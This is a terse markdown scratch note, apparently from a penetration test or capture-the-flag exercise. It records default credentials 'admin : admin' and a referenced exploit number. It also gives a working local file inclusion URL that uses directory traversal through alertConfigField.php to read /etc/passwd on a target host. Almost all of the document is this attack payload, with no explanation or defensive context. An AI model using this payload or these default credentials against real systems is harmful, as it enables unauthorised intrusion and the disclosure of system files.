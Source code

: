 ```yaml
---
category: Uncategorized
tags: []
---
```

admin : admin

LFI:

exploit 25971

```
http://$TARGET/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
